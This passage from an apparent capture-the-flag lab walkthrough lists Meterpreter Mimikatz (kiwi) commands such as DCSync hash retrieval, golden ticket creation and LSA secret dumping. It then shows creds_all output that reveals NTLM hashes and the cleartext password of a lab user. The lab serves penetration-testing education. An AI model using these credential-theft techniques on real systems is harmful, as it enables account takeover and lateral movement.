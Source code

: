 ```shell
    dcsync_ntlm            Retrieve user account NTLM hash, SID and RID via DCSync
    golden_ticket_create   Create a golden kerberos ticket
    kerberos_ticket_list   List all kerberos tickets (unparsed)
    kerberos_ticket_purge  Purge any in-use kerberos tickets
    kerberos_ticket_use    Use a kerberos ticket
    kiwi_cmd               Execute an arbitary mimikatz command (unparsed)
    lsa_dump_sam           Dump LSA SAM (unparsed)
    lsa_dump_secrets       Dump LSA secrets (unparsed)
    password_change        Change the password/hash of a user
    wifi_list              List wifi profiles/creds for the current user
    wifi_list_shared       List shared wifi profiles/creds (requires SYSTEM)
```

Which command allows up to retrieve all credentials?

- creds_all

Run this command now. What is Dark's password? Mimikatz allows us to steal this password out of memory even without the user 'Dark' logged in as there is a scheduled task that runs the Icecast as the user 'Dark'. It also helps that Windows Defender isn't running on the box ;) (Take a look again at the ps list, this box isn't in the best shape with both the firewall and defender disabled)

```shell
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username  Domain   LM                                NTLM                              SHA1
--------  ------   --                                ----                              ----
Dark      Dark-PC  e52cac67419a9a22ecb08369099ed302  7c4fe5eada682714a036e39378362bab  0d082c4b4f2aeafb67fd0ea568a997e9d3ebc0eb

wdigest credentials
===================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
DARK-PC$  WORKGROUP  (null)
Dark      Dark-PC    Password01!

tspkg credentials
=================

Username  Domain   Password
--------  ------   --------
Dark      Dark-PC  Password01!

kerberos credentials
====================

Username  Domain     Password
--------  ------     --------
(null)    (null)     (null)
Dark      Dark-PC    Password01!
dark-pc$  WORKGROUP  (null)
```
